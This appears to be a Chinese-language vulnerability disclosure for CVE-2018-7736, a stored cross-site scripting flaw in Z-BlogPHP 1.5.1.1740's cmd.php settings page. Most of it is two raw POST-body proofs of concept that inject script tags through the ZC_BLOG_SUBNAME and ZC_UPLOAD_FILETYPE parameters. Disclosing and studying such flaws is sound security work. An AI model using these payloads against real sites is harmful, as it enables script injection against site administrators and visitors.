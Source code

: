 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Z-Blog 1.5.1.1740存在XSS漏洞|2018-04-05|zzw (zzw@5ecurity.cn)|[https://www.zblogcn.com/](https://www.zblogcn.com/) | [https://github.com/zblogcn/zblogphp](https://github.com/zblogcn/zblogphp) |1.5.1.1740| [CVE-2018-7736](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7736)|  

#### 漏洞概述  

> Z-BlogPHP 1.5.1.1740版本的cmd.php页面ZC_BLOG_SUBNAME及ZC_UPLOAD_FILETYPE参数过滤不严格可导致跨站脚本漏洞。  

### POC实现代码如下：  

> ZC_BLOG_SUBNAME参数poc代码:

``` raw
post_url：http://localhost/z-blog/zb_system/cmd.php?act=SettingSav&token=2c7ca9a4c1c3d856e012595ca878564f
 
post_data:
 
ZC_BLOG_HOST=http%3A%2F%2Flocalhost%2Fz-blog%2F&ZC_PERMANENT_DOMAIN_ENABLE=&ZC_PERMANENT_DOMAIN_WITH_ADMIN=&ZC_BLOG_NAME=admin&ZC_BLOG_SUBNAME=Good%20Luck%20To%20You!tluf3%22%3e%3cscript%3ealert(1)%3c%2fscript%3euk095&ZC_BLOG_COPYRIGHT=Copyright+Your+WebSite.Some+Rights+Reserved.&ZC_TIME_ZONE_NAME=Asia%2FShanghai&ZC_BLOG_LANGUAGEPACK=zh-cn&ZC_UPLOAD_FILETYPE=jpg%7Cgif%7Cpng%7Cjpeg%7Cbmp%7Cpsd%7Cwmf%7Cico%7Crpm%7Cdeb%7Ctar%7Cgz%7Csit%7C7z%7Cbz2%7Czip%7Crar%7Cxml%7Cxsl%7Csvg%7Csvgz%7Crtf%7Cdoc%7Cdocx%7Cppt%7Cpptx%7Cxls%7Cxlsx%7Cwps%7Cchm%7Ctxt%7Cpdf%7Cmp3%7Cmp4%7Cavi%7Cmpg%7Crm%7Cra%7Crmvb%7Cmov%7Cwmv%7Cwma%7Cswf%7Cfla%7Ctorrent%7Capk%7Czba%7Cgzba&ZC_UPLOAD_FILESIZE=2&ZC_DEBUG_MODE=&ZC_GZIP_ENABLE=&ZC_SYNTAXHIGHLIGHTER_ENABLE=1&ZC_CLOSE_SITE=&ZC_DISPLAY_COUNT=10&ZC_DISPLAY_SUBCATEGORYS=1&ZC_PAGEBAR_COUNT=10&ZC_SEARCH_COUNT=20&ZC_MANAGE_COUNT=50&ZC_COMMENT_TURNOFF=&ZC_COMMENT_AUDIT=&ZC_COMMENT_REVERSE_ORDER=&ZC_COMMENTS_DISPLAY_COUNT=100&ZC_COMMENT_VERIFY_ENABLE=

```
> ZC_UPLOAD_FILETYPE参数poc代码:  

```raw
post_data:
 
ZC_BLOG_HOST=http://localhost/z-blog/&ZC_PERMANENT_DOMAIN_ENABLE=&ZC_PERMANENT_DOMAIN_WITH_ADMIN=&ZC_BLOG_NAME=admin&ZC_BLOG_SUBNAME=Good+Luck+To+You!&ZC_BLOG_COPYRIGHT=Copyright+Your+WebSite.Some+Rights+Reserved.&ZC_TIME_ZONE_NAME=Asia/Shanghai&ZC_BLOG_LANGUAGEPACK=zh-cn&ZC_UPLOAD_FILETYPE=jpg|gif|png|jpeg|bmp|psd|wmf|ico|rpm|deb|tar|gz|sit|7z|bz2|zip|rar|xml|xsl|svg|svgz|rtf|doc|docx|ppt|pptx|xls|xlsx|wps|chm|txt|pdf|mp3|mp4|avi|mpg|rm|ra|rmvb|mov|wmv|wma|swf|fla|torrent|apk|zba|gzbauckek"><script>alert(1)</script>ekkgh&ZC_UPLOAD_FILESIZE=2&ZC_DEBUG_MODE=&ZC_GZIP_ENABLE=&ZC_SYNTAXHIGHLIGHTER_ENABLE=1&ZC_CLOSE_SITE=&ZC_DISPLAY_COUNT=10&ZC_DISPLAY_SUBCATEGORYS=1&ZC_PAGEBAR_COUNT=10&ZC_SEARCH_COUNT=20&ZC_MANAGE_COUNT=50&ZC_COMMENT_TURNOFF=&ZC_COMMENT_AUDIT=&ZC_COMMENT_REVERSE_ORDER=&ZC_COMMENTS_DISPLAY_COUNT=100&ZC_COMMENT_VERIFY_ENABLE=
```